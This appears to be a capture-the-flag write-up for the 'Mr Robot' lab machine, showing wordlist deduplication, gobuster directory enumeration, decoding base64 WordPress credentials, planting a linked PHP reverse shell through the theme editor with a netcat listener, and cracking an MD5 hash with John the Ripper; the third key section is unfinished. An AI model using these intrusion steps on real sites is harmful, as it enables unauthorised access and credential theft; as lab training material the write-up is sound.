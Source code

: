 # Mr Robot

## Key 1

Visit `/robots.txt`:

```txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`/key-1-of-3.txt` -> Got 1st key!

## Key 2

> Hint: There's something fishy about this wordlist... Why is it so long?

Download the wordlist, remove duplicates and run gobuster:

```shell
wget http://10.10.86.225/fsocity.dic
```

```python
wordlist_file = "fsocity.dic"
output_file = "tmp.txt"

with open(wordlist_file, 'r') as f:
    unique_words = {line.strip() for line in f}

with open(output_file, 'w') as f:
    for word in unique_words:
        f.write(word + '\n')
```

```shell
gobuster dir -u http://10.10.86.225/ -w ctfs/tmp.txt
```

![image](./images/robot/1.png)

At `/license`, we find a base64-encoded string

```shell
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
> elliot:ER28-0652
```

`/login` directs us to a Wordpress login page

![image](./images/robot/2.png)

Entering the Username: elliot and Password: ER28-0652 logs us in!

We can host a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) using theme editor:

![image](./images/robot/3.png)

Set up a listening server and visit the page (http://10.10.86.225/wp-includes/themes/TwentyFifteen/404.php)

```shell
nc -lvnp 7777
```

![image](./images/robot/4.png)

`password.raw-md5` gives us a md5 hashed password, which can be decoded by John the Ripper

```shell
john --format=raw-md5 --wordlist=rockyou.txt password.raw-md5
```

![image](./images/robot/5.png)

## Key 3

???
